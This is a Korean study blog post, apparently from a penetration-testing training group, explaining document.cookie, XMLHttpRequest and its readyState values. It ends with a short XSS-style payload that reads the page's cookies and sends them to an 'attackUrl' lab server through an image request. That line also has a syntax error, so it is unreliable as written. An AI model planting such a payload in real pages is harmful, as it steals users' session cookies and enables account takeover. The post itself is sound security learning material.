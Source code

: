 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[JS] document.cookie, XMLHttpRequest"
excerpt: "모의해킹 취업반 스터디 7기 4주차"

date: 2024-11-12
last_modified_at: 

categories: [WEB]
tags: [JS]
---
```


# document.cookie

``` js
let cookie = document.cookie;
console.log(cookie);
```

# XMLHttpRequest
XMLHttpRequest (XHR) 객체는 서버와 상호작용할 때 사용한다.
XHR을 사용하면 페이지의 새로고침 없이도 URL에서 데이터를 가져올 수 있다.

## readystatechange
readyState 속성이 바뀔 때마다 발생한다.
onreadystatechange 속성으로도 수신할 수 있다.

### XHR.readyState
XHR.readyState property returns the state an XHR client is in. An XHR client exists in one of the following states:
<table>
    <thead>
        <tr>
            <td>Value</td>
            <td>State</td>
            <td>Description</td>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>0</td>
            <td>UNSENT</td>
            <td>Client has been created. open() not called yet.</td>
        </tr>
        <tr>
            <td>1</td>
            <td>OPENED</td>
            <td>open() has been called.</td>
        </tr>
        <tr>
            <td>2</td>
            <td>HEADERS_RECEIVED</td>
            <td>send() has been called, and headers and status are available.</td>
        </tr>
        <tr>
            <td>3</td>
            <td>LOADING</td>
            <td>Downloading; responseText holds partial data.</td>
        </tr>
        <tr>
            <td>4</td>
            <td>DONE</td>
            <td>The operation is complete.</td>
        </tr>
    </tbody>
</table>

``` js
let http = new XMLHttpRequest();
let url = "http://192.168.0.8:1018/4th/cookie.php";

http.open("GET", url);
http.send();
http.onreadystatechange = (e) => {
    console.log("http.responseText: ")
    console.log(http.responseText);
}
```

``` js
let cookieData = document.cookie;
let attackUrl = "http://192.168.0.8:1018/4th/cookie.php";
let img = new Image().src = attackUrl "?" + cookieData;
```

# 참고
* [XMLHttpRequest](https://developer.mozilla.org/ko/docs/Web/API/XMLHttpRequest)
* [XMLHttpRequest: readyState property](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/readyState)
* [이미지 객체](https://inpa.tistory.com/entry/JS-%F0%9F%93%9A-%EC%9E%90%EB%B0%94%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8A%B8-%EC%9D%B4%EB%AF%B8%EC%A7%80-%EA%B0%9D%EC%B2%B4-%EC%82%AC%EC%9A%A9%EB%B2%95)
